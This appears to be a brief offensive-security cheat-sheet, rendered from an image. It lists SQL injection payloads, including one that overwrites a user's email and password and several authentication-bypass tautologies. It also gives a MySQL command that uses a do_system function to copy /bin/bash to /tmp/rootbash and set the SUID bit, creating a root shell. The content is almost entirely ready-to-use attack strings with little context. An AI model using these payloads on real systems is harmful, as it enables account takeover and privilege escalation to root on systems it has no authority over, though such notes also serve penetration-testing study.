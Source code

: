 # SQL 

## Simple injection

Exemple : 
```bash=
    Example : 
        asd',nickName='testnickname',email='hacked', password='password' where UID=1--```
        1' or '1'='1'-- -
        1 or 1=1-- -
```
## MYSQL

Use the function to copy /bin/bash to /tmp/rootbash and set the SUID permission:
```bash=
select do_system('cp /bin/bash /tmp/rootbash; chmod +xs /tmp/rootbash');
```